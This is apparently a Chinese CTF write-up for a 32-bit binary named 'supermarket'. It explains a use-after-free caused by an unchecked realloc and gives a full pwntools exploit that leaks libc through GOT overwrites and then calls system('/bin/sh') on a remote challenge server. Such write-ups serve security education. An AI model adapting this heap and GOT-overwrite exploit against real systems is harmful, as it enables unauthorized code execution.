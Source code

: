 # SuperMaket

### 漏洞点:

添加和删除基本上没有十分严密, 找不到漏洞, 输入的长度且必须是n - 1, 不存在 off by one.然而在修改description的时候,当新的大小与以前大小不同时, 就会realloc重新分配内存.但没有跟新list数组中的指针.若重新分配大的话, 就造成use after free.

简要说一下 realloc函数吧:

extern void *realloc(void *mem_address, unsigned int newsize);

realloc会根据newsize大小来判断怎样分配新的内存, 并却将原来的数据拷贝到新分配的内存中.

realloc包含了 malloc, free, memcpy三个函数功能, 若新的大小过大的时候, 且在相邻chunk没有空间可分配, 这时候,系统就会去找一个空间够的地方来开辟内存, 这时候就可能涉及到这三个函数的功能. malloc新的内存, mcmcpy拷贝数据, free掉以前的chunk.



### 漏洞代码:

```c++
for ( size = 0; size <= 0 || size > 256; size = inputNum() )
    printf("descrip_size:");
  if ( *((_DWORD *)(&list_0)[v1] + 5) != size )
    realloc(*((void **)(&list_0)[v1] + 6), size); //漏洞点
  printf("description:");
  return inputName(*((_DWORD *)(&list_0)[v1] + 6), *((_DWORD *)(&list_0)[v1] + 5));
}
```

### 整体思路:

#### 获得libc的基地址:

利用这个漏洞来修改free函数的got表为puts, 传入参数为atoi函数的got地址.调用free时, 获得atoi在libc中的地址.计算偏移即可

#### 调用system.

获得libc地址之后, 也利用这个漏洞修改atoi的got表地址为system地址.然后在进行选择的时候直接传入参数 '/bin/sh'即可获得shell.当然还可以继续修改free的got地址为system.但需要得到'/bin/sh'在libc中的地址, 且在chunk头的decription地址中写入该地址.调用free也行, 我试过了, system虽然能调用成功, 就是这个'/bin/sh'在libc中的偏移有问题. 结果 就是sh :cmd not found

以上就是整体思路:

#### exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan
# Team  : D0g3

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'

#context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "supermarket"
libFile  = "libc.so.6"

remoteIp = "111.198.29.45"
remotePort = 57966

LOCAL = 0
LIBC  = 1

r   =  lambda x : io.recv(x)
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(index, size, text):
	sla('>> ', str(1))
	sla(':', str(index))
	sla(':', str(0))
	sla(':', str(size))
	sla(':', text)

def rm(index):
	sla('>> ', str(2))
	sla(':', str(index))

def dp():
	sla('>> ', str(3))	

def md(index, size, text):
	sla('>> ', str(5))	
	sla(':', str(index))
	sla(':', str(size))
	sla(':', text)

def q():
	sa('>> ', str(6))	

#--------------------------Exploit--------------------------
def exploit():
	ad(0, 0x80, '0' * (0x80 - 1))
	ad(1, 0x10, '1' * (0x10 - 1))
	md(0, 0x90, '') #不要向free掉的数据块中写入数据. 不然后期无法malloc
	ad(2, 0x10, '2' * (0x10 - 1))
	p = p32(0x32) + p32(0) * 4
	p += p32(0x10) + p32(exe.got['free'])
	p += '\x19'
	md(0, 0x80, p) # modify dscription addr as free got addr
	p2 = p32(exe.plt['puts'])
	md(2, 0x10, p2) #modify free got addr as puts got addr

	# leaking
	p3 = p32(0x32) + p32(0) * 4
	p3 += p32(0x10) + p32(exe.got['atoi'])
	p3 += '\x19'
	md(0, 0x80, p3)

	rm(2) #puts atoi addr in libc
	atoi_addr = u32(r(4))
	li('libc_base: ' + hex(atoi_addr))
	libc_base = atoi_addr - lib.sym['atoi']
	li('libc_base: ' + hex(libc_base))
	sys_addr = libc_base + lib.sym['system']
	sh_addr = libc_base + 0x0015902b

	#modify got addr as system
	ad(3, 0x10, '3' * (0x10 - 1))

	p4 = p32(0x32) + p32(0) * 4
	p4 += p32(0x10) + p32(0x0)
	p4 += p32(0x19) + p32(0x0) * 5
	
	p4 += p32(0x21) # modify item 3

	p4 += p32(0x33) #3
	p4 += p32(0x0) * 4
	p4 += p32(0x10)
	p4 += p32(exe.got['atoi']) + '\x19'
	
	md(0, 0x80, p4)
	

	p5 = p32(sys_addr)
	md(3, 0x10, p5) # modify atoi got table as system

	#db()
	
	# call system with /bin/sh
	sla('>> ', '/bin/sh')

def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	exe = ELF(exeFile)
	if LOCAL:
		if LIBC:
			lib = ELF('/lib/i386-linux-gnu/libc.so.6')
		#io = exe.process(env = {"LD_PRELOAD" : libFile})
		io = exe.process()
	
	else:
		io = remote(remoteIp, remotePort)
		if LIBC:
			lib = ELF(libFile)
	
	exploit()
	finish()
```

